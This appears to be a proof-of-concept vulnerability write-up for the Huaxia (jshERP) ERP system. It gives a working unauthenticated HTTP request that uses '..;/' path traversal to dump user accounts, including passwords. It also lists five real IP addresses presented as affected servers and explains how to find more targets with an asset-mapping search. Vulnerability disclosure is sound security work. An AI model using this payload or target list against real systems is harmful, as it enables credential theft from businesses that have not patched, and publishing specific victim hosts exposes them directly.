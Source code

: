 

## Product Introduction

Guan Yijia ERP (formerly known as Huaxia ERP) is based on the SpringBoot framework and SaaS model, aiming to provide open-source and user-friendly ERP software for small and medium-sized enterprises. Currently, it focuses on inventory management, finance, and production functions. The main modules include retail management, procurement management, sales management, warehouse management, financial management, report query, and system management, etc. It supports special features such as advance payment, income and expenditure, warehouse transfer, assembly and disassembly, and orders. It has reports such as product inventory and entry and exit statistics. At the same time, it has detailed and comprehensive control over roles and permissions, down to each button and menu.

## Vulnerability Description

There is an information leakage vulnerability in the Huaxia ERP system. By sending a data packet containing a payload, sensitive information such as usernames, passwords, and job levels can be returned. Due to the simplicity of exploiting this vulnerability, it is recommended that users immediately upgrade to version 3.5 or above to prevent its exploitation.

## Examples URLs affected by the vulnerability

```
http://121.228.124.38:8088/,https://222.71.147.35/,http://39.106.129.54:8081/,http://8.138.91.130:8088/,http://101.37.118.74:8890/
```

## POC

```http
GET /jshERP-boot/platformConfig/getPlatform/..;/..;/..;/jshERP-boot/user/getAllList HTTP/1.1
Host: <target host>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

## Reproduction

Use the network asset mapping engine to search for "jshERP-boot" and enter a website that uses Huaxia ERP v3.3, no login required, and send a packet to get a response:

![image-20250225154253578](./image-20250225154253578.png)

The browser displays the following:

![image-20250225154604745](./image-20250225154604745.png)
